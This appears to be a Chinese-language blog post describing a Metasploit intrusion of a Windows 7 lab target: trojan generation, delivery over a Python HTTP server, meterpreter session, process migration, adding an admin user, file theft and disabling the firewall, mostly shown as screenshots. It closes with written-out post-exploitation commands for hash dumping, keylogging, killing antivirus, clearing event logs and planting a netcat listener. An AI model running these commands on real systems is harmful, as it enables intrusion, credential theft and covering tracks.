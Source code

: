 ```yaml
---
layout:     post
title:      msf入侵windows基本实践
subtitle:   msf入侵win7
date:       2021-03-19
author:     BlackFrog-hub
header-img: img/msf_bg.jpg
catalog: true
tags:
    - msf
    - kali
      
---
```


##### 生成木马

![](http://blackfrog.top/img/trojan.png)

##### 利用`Python`快速生成一个`HTTPServer`

![](http://blackfrog.top/img/python_http.png)

##### 利用靶机访问我们刚刚使用`Python`开启的`HTTPServer`，并下载生成的`Trojan`

![](http://blackfrog.top/img/http.png)

##### 启动`msf`

![](http://blackfrog.top/img/qidong.png)

##### 设置`payload`,并`exploit & run`成功

![](http://blackfrog.top/img/set.png)

##### 将`Trojan`进程移动到其他指定的进程中，这样做的好处是可以给`meterpreter`一个相对稳定的运行环境

![](http://blackfrog.top/img/unkill.png)

##### 查看`route`信息

![](http://blackfrog.top/img/route.png)

##### 查看进程

![](http://blackfrog.top/img/ps.png)

##### Get目标主机`shell`隐藏，获取靶机信息

![](http://blackfog.top/img/get.png)

##### 查看`IP`

![](http://blackfrog.top/img/ip.png)

##### 添加新用户并加入`administrator`组

![](http://blackfrog.top/img/shell.png)

##### 下载靶机文件

![](http://blackfrog.top/img/get_file.png)

##### 关闭目标主机`Firewalls`

![](http://blackfrog.top/img/off_firewall.png)

##### 其他基本命令
-  `run post/windows/gather/smart_hashdump`  获取目标主机上用户的hash值
-  `run post/windows/capture/keylog_recorder`  键盘记录
-  `run killav` 结束目标主机上的杀毒软件相关进程
-  `clearev`  清除系统日志
-  `upload /usr/share/windows-binaries/nc.exe c:\\windows\\system32` 上传`nc.exe`到目标主机上 (注:`\\`)
-  `dir windows\\system32\\nc.exe`  查看
-  `execute -f nc -nvlp 3333`  执行nc.exe

